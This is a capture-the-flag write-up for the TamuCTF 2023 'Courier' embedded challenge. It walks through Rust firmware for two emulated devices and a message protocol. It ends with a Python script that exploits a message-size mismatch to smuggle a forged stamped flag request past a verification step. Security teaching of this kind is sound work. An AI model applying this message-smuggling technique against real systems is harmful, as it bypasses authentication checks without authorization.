

# TamuCTF 2023 - Embedded - Courier Writeup
In my writeup for the [GoogleCTF 2022 for the Hardware *Weather*] challenge,
I wrote

> I would definitely spend hours solving challenges like this once again.

Well, I can say that I finally found another challenge that I enjoyed as much
if not more.

I will guide you, the reader, to how I came up with the solution, but I would
also strongly suggest that you think about it for some time on your own
before and while reading, it's a fun learning experience and you will definitely
understand so much more like that.

If you are here only for the final solution and not interested in knowing
the steps of how this solution was discovered, you can jump to the
[solution part](#the-attack).

Another important note before starting is, while I may make it seem like
I found the solution directly, in reality it is not the case, I had to go
through many dead ends, times of frustration and intentions of giving up.
The point is, don't feel bad if you don't find the solution immediately,
what makes CTF challenges more fun is when the solution is not obvious,
the more dead ends you go through, the more you learn too, and the joy
of coming up with the solution at the end pays up for all the frustration.

# Challenge Resources
If by the time you are reading this writeup the CTF website is still up, then
you can access the challenge through the link
https://tamuctf.com/challenges#Courier-34.

<details>
  <summary>
    Otherwise, expand this section to see information about the challenge
  </summary>

  <h2>Challenge description</h2>
Author: Addison

Special delivery! This device emulates a delivery system, but we don't have
the ability to connect to the stamping device. Can you trick the target into
leaking the flag?

Connections to the SNI courier will connect you to the UART of the device.
You can test with the provided files (just install Rust with the
thumbv7m-none-eabi target). We've provided the sender/ implementation as a
reference.

Hint: There are very few comments. The ones that are present are extremely
relevant to the intended solution.

NOTE: sender is designed to only work locally on port 42069. To communicate
with the remote server, use `solver-template.py`, or run `socat -d -d
TCP-LISTEN:42069,reuseaddr,fork EXEC:'openssl s_client -connect tamuctf.
com\:443 -servername courier -quiet' in a separate terminal window before
running your solution.

  <details>
    <summary>Additional hints</summary>
    <p>
Some contestants are having issues with local builds of courier (the program
issues a hard fault when executed in qemu-system-arm) due to a local build
environment issue. We are unfortunately unable to reproduce and diagnose this
issue, so we have provided a working build, but these are not the same binaries
that are on the remote server. Notably, stamp.key and flag.txt have been
replaced.

In addition, we provide the additional following hint: connections to the
server will not be able to observe debug output as it is not provided over the
UART connection. Therefore, to observe debug statements, you must execute it
locally with the provided challenge files. You may run it locally with make
build and HPORTS=42069 make -e run.
  </details>
  <br/>

  <h2>Challenge Attachments</h2>
  <a href='res/attachments/courier.tar.gz'>courier.tar.gz</a>

  <a href='res/attachments/solver-template.py'>solver-template.py</a>
</details>
<br/>

If the challenge servers are still up, you can connect to the target machine
easily using `pwntools` with
```py
p = remote("tamuctf.com", 443, ssl=True, sni="courier")
```

# Prerequisite Knowledge
In my writeup, I will assume you have at least some programming knowledge
(and since you are interested enough in reading this writeup, then you
definitely do). The code in the challenge is written in Rust, but if you know
other languages, you will be able to make sense of the code, as a matter of fact
I never read or written any Rust code in my life before looking at this
challenge.

However that does not mean that basic programming knowledge alone is what it
needed to solve the challenge, as such, I am going to take advantage of this
chapter to talk about what I believe are some key concepts to know.

<details>
  <summary>ARM</summary>
Most desktops and laptops today (not counting fancy Apply M1 & M2 laptops),
as well as servers, have an x86 CPU in them. But x86 is not the dominant CPU
architecture anywhere else, most notably in the phones market share, where ARM
is dominant, and more generally in the embedded space as well.

In high level languages, in this case Rust, the exact CPU architecture does not
matter for the most part, but it is always good to know what architecture
a piece of code is going to run on.

<ul>
  • <a href='https://youtu.be/NNol7fRGo2E'>
    A tour of the ARM architecture and its Linux support
  </a>

  • <a href='https://www.ti.com/lit/ds/symlink/lm3s6965.pdf'>
    Stellaris® LM3S6965Microcontroller Data Sheet
  </a>

  • <a href='https://en.wikipedia.org/wiki/ARM_architecture_family'>
    Wikipedia ARM architecture family
  </a>
</ul>
</details>

<details>
  <summary>UART</summary>
UART, which stands for *Universal Asynchronous Receiver/Transmitter*, is
a protocol that allows two microcontrollers to communicate between each other,
using no more than two pins: Tx for transmission and Rx for reception.

<ul>
  • <a href='https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter'>
    Wikipedia Universal asynchronous receiver-transmitter
  </a>

  • <a href ='https://www.ti.com/lit/sprugp1'>
    KeyStone Architecture Universal Asynchronous Receiver/Transmitter (UART) User Guide
  </a>
</ul>

</details>

<details>
  <summary>Emulation</summary>
It is possible to have a piece of software emulate the behavior of some
hardware, these are known as virtual machines. This is relevant in this
challenge because the two devices that run the Rust code are emulated using
<a href='https://www.qemu.org/'>Qemu</a>.
</details>
<br/>

# Initial Experiments
Using the `solver-template.py`, we can connect to an instance of the system,
the device we are connected to does not print anything directly after connection
so we are only left with the red `$` coming from `pwntools`' `interactive()`
function.

If we try to execute something like `help`, nothing gets displayed either, so
I assume the connection we have is not into some kind of Linux shell,
and I cannot think of any more blink testing that can be done here, so it is
time to read the source code.

# Exploring The System
The source code is written in Rust, and is divided into small units each one of
which is in its own directory. We sadly do not have any kind of documentation
about the system, so we will need to figure it out ourselves.

There is no real way to know where to start reading the source code, therefore
I think the wise thing to do is read the `Dockerfile` first since it will give
us an idea about the environment the server challenges are in.

## Dockerfile
From the `Dockerfile`, we can know that the challenge servers are running a
Linux environment, but more importantly, `Qemu` is installed, and the command
```sh
socat -d -d TCP-LISTEN:$PORT,reuseaddr,fork EXEC:/opt/chal/entrypoint.sh
```
is executed right at the startup of the docker container.

The command is very cryptic, thankfully however, we have the Linux manual to
explain what those options mean, you can check the full manual entry for `socat`
[here](https://linux.die.net/man/1/socat), but basically, the `-d -d` part can
be ignored, it is there only to tell `socat` to output extra information.

`TCP-LISTEN` tells `socat` to listen on a specified port, in this case `$PORT`.
The option `fork` tells socat to make a new child process for each new
connection, and I didn't really understand `reuseaddr`, but it does not seem
that important anyway.

`EXEC` tells socat that for each new connection, it should execute the program
specified in the command, in this case the shell script
`/opt/chal/entrypoint.sh`, which is also the shell script we have with the
source code. The important part is that the standard input and output of this
program will be redirected to the network connection.

If you are not familiar with Unix file redirection and all these cool things,
I suggest you watch [this video](https://youtu.be/GA2mIUQq48s)
(maybe at 2x speed).

So in short, we know that the challenge servers will execute the shell script
`entrypoint.sh` for each connection, so the next logical step is to see what
`entrypoint.sh` does.

## entrypoint.sh
Other than cleanup setup, `entrypoint.sh` starts with two calls to
`qemu-system-arm` in background with `&`.

The command line for the first Qemu instance is
```sh
qemu-system-arm \
  -cpu cortex-m3 -machine lm3s6965evb -display none \
  -semihosting-config enable=on,target=native       \
  -serial unix:"${socks}/consignee",server          \
  -kernel "${challenge_base}/consignee" &
```
While for the second Qemu instance, it is
```sh
qemu-system-arm \
  -cpu cortex-m3 -machine lm3s6965evb -display none \
  -semihosting-config enable=on,target=native       \
  -serial unix:"${socks}/sender",server             \
  -serial unix:"${socks}/consignee"                 \
  -kernel "${challenge_base}/courier" &
```

The most interesting options are `-serial` and `-kernel`.

The first Qemu instance launches the `consignee` kernel while also creating
a unix socket file `consignee` for serial communication.

The second Qemu instance launches the `courier` kernel while also creating
another unix socket file `sender` for serial communication, and also uses
the `consignee` socket file to communicate with the first Qemu machine.

Then last we have this command
```sh
socat - UNIX-CONNECT:"${socks}/sender"
```
which will redirect `stdio` to the unix socket `sender` effectively making all
`stdio` go to the serial input of the second Qemu instance. And remember, in
this shell script `stdio` is the input/output we send/receive to/from
the challenge server.

We also know from `-cpu` what kind of processor the devices are running, which
is a Cortex-M3 processor.

## System Model
For the sake of limiting confusion, I will name the two Qemu instances, based
on the kernel they are running, the first Qemu instance will be referred to
as `consignee` device, while the second one will be the `courier` device.

Since our input/output goes to the `courier` device just like `courier`
communicates with `consignee`, then we might think of our input/output
as coming from a third machine, which I will refer to as the `sender` device.

Below is a graphical presentation(excuse the poor drawing) of how all of these
devices are connected to each other, or at least that is how much we know from
`Dockerfile ` and `entrypoint.sh`.



The red lines represent communication between devices, while the devices are
those black outlined boxes.

If I had to give a wild not so educated guess, I would say that the flag resides
in `consignee` for no other reason that it being the furthest away
from `sender`.

Now we can know where to start reading the source code, since out input first
reaches `courier`, it is definitely a good idea to start from there.

## Courier Source Code
The source code for `courier` is all contained in a single file
`courier/main.rs`, it is not however structured like a usual Rust program.
Remember, `courier` is a kernel for the Cortex-M3 processor, as such, there
isn't the usual `main` function. However there is a function called `init`
marked with the attribute `#[init]`, so, even if we do not bother looking up
which dependency provides us with that attribute, we can assume this is out
"`main`" function.

The function starts with what seems a heap initialization:
```rust
use core::mem::MaybeUninit;
static mut HEAP_MEM: [MaybeUninit<u8>; HEAP_SIZE] = [MaybeUninit::uninit(); HEAP_SIZE];
unsafe { HEAP.init(HEAP_MEM.as_ptr() as usize, HEAP_SIZE) }
```
Which can be ignored.

After that, we have an initialization of the serial ports
```rust
let (sender_manage, sender_rx, sender_tx) =
  unsafe { UARTPeripheral::new(UARTAddress::UART0) }
    .enable_transmit(true)
    .enable_receive(true)
    .enable_fifo(true)
    .enable_break_interrupt(true)
    .enable_receive_interrupt(true)
    .finish()
    .split();
```
And a very similar one for the connection with `consignee`:
```rust
let (consignee_manage, consignee_rx, consignee_tx) =
  unsafe { UARTPeripheral::new(UARTAddress::UART1) }
    .enable_transmit(true)
    .enable_receive(true)
    .enable_fifo(true)
    .enable_break_interrupt(true)
    .enable_receive_interrupt(true)
    .finish()
    .split();
```
These can also be largely ignored, all we can get from these is that the
variables `sender_manage`, `sender_rx` and `send_tx` and their `consignee`
counter parts are used to manage the connection part, if we come across them
later in the source code.

After that the `init` function returns what seems to be a local state, the
details of how this works exactly are not important, what matters is that this
local state can be accessed from other functions.

The state returned is initialized in he following way:
```rust
Local {
  sender_manage,
  sender_rx,
  sender_tx,
  consignee_manage,
  consignee_rx,
  consignee_tx,
  stamp_ctr: 0,
  next_msg_sender: None,
  next_msg_consignee: None,
  rx_buf_sender: Vec::new(),
  rx_buf_consignee: Vec::new(),
}
```

Next, we have the function `recv_msg_sender`, which has the declaration

```rust
#[task(
    binds = UART0,
    priority = 1,
    local = [sender_rx, next_msg_consignee, rx_buf_sender]
  )
]
fn recv_msg_sender(cx: recv_msg_sender::Context) { ... }
```
We can safely guess from the attribute and name that this function called
when `courier` receives a message from `sender` at UART0.

The function also accesses the members `sender_rx`, `next_msg_consignee` and
`rx_buf_sender` from the local state.

The first part of the function basically makes sure to send any message that
failed to be sent to `consignee` before processing any message from `sender`.

After that we enter a loop while there is still data to be read from `sender`.
This data is read and processed byte by byte as evident by:
```rust
let Ok(b) = uart.readb() else { return; };
```
This data is then put inside the local state in `rx_buf_sender` which acts
as a buffer to store all the message from `sender` even though it is processed
byte by byte.

This buffer is then passed to `try_read_msg` with the call:
```rust
try_read_msg::<_, { 1 << 12 }, false>(rx_buf)
```
We will analyze this function later.

`try_read_msg` returns one of three cases, an `Err(ReadMsgError::NotYetDone)`
when it determines that the message was not yet received or processed
entirely, an `Ok(msg)` when the function determines that we received the entire
message, or an `Err(e)` when it determines that the currently being read message
is invalid.

The interesting part is (obviously) when `Ok(msg)` is returned, and when that
happens, the following sequence of code gets executed:
```rust
let mut prev_buf = Vec::new();
swap(rx_buf, &mut prev_buf);
if let Err(msg) = send_msg_consignee::spawn((prev_buf, msg)) {
    *next_msg = Some(msg);
    return;
}
```
The `rx_buf_sender` gets swapped with an empty buffer, so `prev_buf` contains
the input se sent for the current message, then we try to send a message to
consignee with the `send_msg_consignee` function, giving it the tuple
parameter `(prev_buf, msg)` as well.

So let's read `send_msg_consignee`.

`send_msg_consignee` starts by checking the type of the message, apparently,
there are two valid types of messages we the `sender` can send to `courier`,
we can either send `Unstamped` messages or `Stamped` messages, in the former
case, nothing special is done, while in the latter case, some stamp is checked
for validity, and if the stamp validity check fails, the function
`send_msg_consignee` simply returns and doesn't continue to do the following.

If the message was unstamped, or it was stamped with a correct stamp, `courier`
will simply forward the message to `consignee`, using the `prev_buf`, it will
literally just copy paste the message to `consignee` without any modifications.

The following two functions `recv_msg_consignee` and `send_msg_sender` basically
do something very similar but in reverse, they forward all responses from
`consignee` to `sender` as long as the message type is `Response`, not
`Stamped` or `Unstamped`, or some invalid message type.

To recap what we know so far; There are 3 message types: `Unstamped`, `Stamped`,
and `Response`. `courier` will forward all valid `Unstamped` messages, and
all valid `Stamped` messages with a valid stamp from `sender` to `consignee`
as is. `courier` will also forward back all messages of type `Response` from
`consignee` back to `sender`.

With the behavior of `courier` known, we can move on to `consignee`.

## Consignee Source Code
Similarly to the structure of `courier`, `consignee` has an `init` function
which we can skip analyzing because it is very similar to `courier`'s
`init`.

Next, `consignee` has a `recv_msg` function, which receives messages from
`courier`, similarly to `courier`'s `recv_msg_sender`, this function
processes any incoming message byte by byte, while using a buffer to store
the entire message when it's still being received. When the function
receives a full and valid message, as determined by the same function
`try_read_msg`, it calls `respond_to_msg` giving it the received message as
parameter.

In `respond_to_msg` we get an insight into what `consignee` is useful for,
the theory of `consignee` storing the flag is indeed true, because as a response
to the stamped message of type `FlagRequest`, `consignee` will return the flag.

Whatever response is generated by `respond_to_msg` is then sent, byte by byte,
back to `courier`, and remember that `courier` simply forwards responses back
to `sender` without any additional checks.

### Consignee's Protocol
Below is a model of the responses given by `consignee` upon reception of a valid
request:
- `Unstamped` messages:
  - `HailstoneRequest(a: u16)` -> `HailstoneResponse(hailstone(a))`
- `Stamped` messages:
  - `WeddingInvitation` -> `WeddingResponse(...)` (useless)
  - `FlagRequest` -> `FlagResponse(flag)` (not useless)

---
It is then obvious what the objective we are aiming to achieve is, we want to
make `consignee` receive a `FlagRequest`.

Notice how `consignee` does NOT check the stamp, if it receives a stamped
message, it will accept it's content even if the stamp is nonsense, it trusts
that `courier` checked the stamp, and whenever there is trust, there is
opportunity for a hacker.

This is all there is to `consignee`, it is really simple, and we already have
an idea about how we need to attack the system.

Next, let's have a look at `try_read_msg`.

## try_read_msg
The source code for `try_read_msg` can be found in `courier-proto/src/lib.rs` at
line 42.

First thing the function does is check the length of the in reception message:
```rust
if buf.len() >= MSG_MAGIC.len() + core::mem::size_of::<u16>()
```
If the length is greater than 10, it parses its header, the header should be
as follows:

| Offset | Size | Content        | Description                              |
| ------ | ---- | -------------- | ---------------------------------------- |
| 0      | 8    | 'COURIERM'     | Magic                                    |
| 8      | 2    | msg_len:MSBu16 | Number of bytes to read after the header |

The very confusing sequence
```rust
let mut len_buf = [0u8; core::mem::size_of::<u16>()];
buf.iter()
    .copied()
    .skip(MSG_MAGIC.len())
    .take(core::mem::size_of::<u16>())
    .zip(&mut len_buf)
    .for_each(|(b, e)| *e = b);
let msg_len = u16::from_be_bytes(len_buf);
```
basically reads `msg_len` from the header and stores in the variable with
the same name, part of me thinks there was probably a simpler and more clear way
to do that, but the devs wanted to make it confusing.

Next we check if the message size if larger than `MAX_SIZE`, and if it is the
case, we clear the buffer and return an `Err(MessageTooLong)`. `MAX_SIZE` is
a template parameter(I don't know if they are called templates in Rust, using
C++ terminology), and very suspiciously, `courier` sets it to `1 << 12` while
`consignee` to `1 << 10`, this should not be the case because all `sender`
messages are forwarded to `consignee`, and as such both `courier` and
`consignee` should share the same definition of what a *message* is.

Knowing that the buffer is cleared when `msg_len > MAX_SIZE`, can you think
of any ways this could be abused? If you are reading while trying to still
solve the problem, I would suggest you really think about it.

### How can this be abused?
Imagine that `sender` sends a message of length between the `MAX_SIZE` of
`courier` and `consignee`, what would happen is that `courier` will think the
message is fine and forward it to `consignee`, but `consignee` will discard
it after reading the first 10 bytes and finding out the message size is too
large for it to handle. The bigger problem arises with the fact that `courier`,
not knowing `consignee` rejected the message will still dump the rest of
the message on `consignee`, `consignee` will be trying to read the body of the
message sent by `sender` as a header to a second fictional message. `consignee`
will be effectively living a delusion, and all we need to do to trigger this
delusion is to send a message with a size between `2^10` and `2^12`, like
`2^11`.

---
Let's continue reading through `try_read_msg`.

If the message is of valid length, then `try_read_msg` will keep returning
`Err(NotYetDone)` until the buffer is of length `10 + msg_len`, in which
case it will decode the message using `postcard`:
```rust
let value =
  postcard::from_bytes(
    &buf[(MSG_MAGIC.len() + core::mem::size_of::<u16>())..]
  )?;
```
[Here](https://postcard.jamesmunns.com/) is the documentation of `postcard`,
and understanding the format which messages are encoded with will be essential
to build a message. This format is explained [later](#postcard) in this
writeup.

If the template argument specifies it through `CLEAR_ON_DESER`, then the buffer
will be cleared when a message was successfully read, which is the case for
`consignee`, while `courier` clears the buffer itself after swapping it with
a new buffer.

Finally, if message decoding was successful, the function `try_read_msg` returns
the decoded message.

The first part of the header `COURIERM` is validated with the buffer size
is still less than `10` with:
```rust
if last != MSG_MAGIC[buf.len() - 1]
```

And in case the last character of the buffer is not the correct one from the
magic then:
```rust
buf.clear();
buf.push(last); // we might actually be handling
```
The buffer is cleared and the last character is put back.

## Postcard
The format `postcard` uses to encode messages is really simple.

Integers are stored in the `varint` format to take as little space as possible.
While enums are stored as their numerical value followed by any data they have.

### Examples
The message `Unstamped(HailstoneRequest(17))` will be encoded as the byte
array:
```py
[
  0x00, # Enum value of Unstamped
  0x00, # Enum value of HailstoneRequest
  0x11  # Hex for varint(17u16)
]
```

The subsequent response `Response(HailstoneResponse(12))` will be encoded as the
byte array:
```py
[
  0x02, # Enum value of Response
  0x00, # Enum value of HailstoneResponse
  0x0C  # Hex for varint(12u16)
]
```

The file [`encoder.rs`](res/encoder.rs) is a simple tool I wrote that would
print the encoding of a couriered package, it needs to be modified from source
to print the encoding of a different couriered package, but it is really simple
(and also my first written lines of Rust).

# The Attack
Now let's put all the knowledge we gained from analyzing the system together
and let's see how it can be fatally exploited.

We know that `consignee` does not check stamps and trusts that `courier` did
so. And we know that `consignee` can still reject a message sent to it from
`courier` in the case the message is of a size between `2^10` and `2^12`.
This also allows us to make `consignee` read a *sub*message from the body
of another *parent* message.

It is kind of obvious how this can be exploited, we need to send an `Unstamped`
message to `courier` of size `2^11` for example, and have in its body a
`Stamped` *sub*message for `consignee` with th `FlagRequest`.

The format of the `FlagRequest` message is as follows:
```rust
Stamped(
  StampedPackage {
    ctr: 0x0c, // arbitrary
    hmac: [0x0du8; 32], // arbitrary
    stamped_payload: Vec::from(
      [1u8] // Enum value for FlagRequest
    )
  }
)
```
Which is encoded to
```py
[
  0x01, # Enum value of Stamped
  0x0c, # ctr
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p1
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p2
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p3
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p4
  0x01, # Count of next byte
  0x01  # Enum value of FlagRequest
]
```

So all we need to do is wrap this structure inside a long unstamped message that
`courier` naively thinks is a `HailstoneRequest`

We can do so with the following python script:
```py
message = list()

message += 'COURIERM'.encode() # Header of the first real message
message += [0x08, 0x00]        # 2^11 bytes message length
message += [0x00, 0x00]        # Unstamped HailstoneRequest
message += 'COURIERM'.encode() # Header for the fictional 2nd consignee message
message += [0x00, 0x24]        # 36 bytes message length

# Encoded fake stamped FlagRequest package
message += [0x01, 0x0c, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x01, 0x01]

print(len(message))
print(f'{bytes(message)}')
print('Adding 0s')

# The real message needs to be 2^11 + 10 bytes in length, so we pad with 0s
message += [0]*(2058-len(message))
```

Finally, if we send this message using a modified version of
`solver-template.py`, we receive back
```py
b'COURIERM\x00>\x02\x02;Oh, sure! Here you go: gigem{what_is_old_becomes_new_again}'
```

And this is it, 20 hours of work and the flag is
`gigem{what_is_old_becomes_new_again}`

[GoogleCTF 2022 for the Hardware *Weather*]: ../../GoogleCTF2022/Hardware-Weather/README.md


